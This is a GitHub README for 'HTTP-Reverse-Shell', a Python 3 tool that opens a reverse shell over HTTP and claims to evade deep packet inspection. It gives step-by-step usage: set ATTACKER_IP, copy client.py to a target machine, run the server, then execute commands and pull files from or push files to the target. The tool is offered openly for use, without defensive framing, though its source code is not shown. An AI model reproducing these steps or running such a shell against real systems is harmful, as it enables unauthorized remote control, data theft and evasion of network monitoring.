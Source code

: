 # HTTP-Reverse-Shell

![https://img.shields.io/github/stars/apurvsinghgautam/HTTP-Reverse-Shell](https://img.shields.io/github/stars/apurvsinghgautam/HTTP-Reverse-Shell) ![https://img.shields.io/github/forks/apurvsinghgautam/HTTP-Reverse-Shell](https://img.shields.io/github/forks/apurvsinghgautam/HTTP-Reverse-Shell)

A reverse shell over HTTP (dodges deep packet inspection). Using Python 3 and no external dependencies needed.

# Prerequisites
- Python 3 (on both the attacker and the target machine

# Usage
1. Change `ATTACKER_IP` to the actual IP of the attacker on `client.py`
2. Change `ATTACKER_PORT` on both `client.py` and `server.py` (or you can just use the default)
3. Transfer `client.py` to the target machine
4. Run `server.py` on the attacker machine
```
python3 server.py
```
5. Run `client.py` on the target machine
```
python3 client.py
```
6. Connection will be established

Function instruction:
1. Normal command
```
Shell><type your command here>
```
2. Pull file
```
Shell>pull <which file you want to get from client(full file path in client)> <which file you want to save on server(full file path includes file name in server)>
```
3. push file
```
Shell>push <which file you want to send to client(full file path in server)> <which file you want to save on client(full file path includes file name in client)>
```  
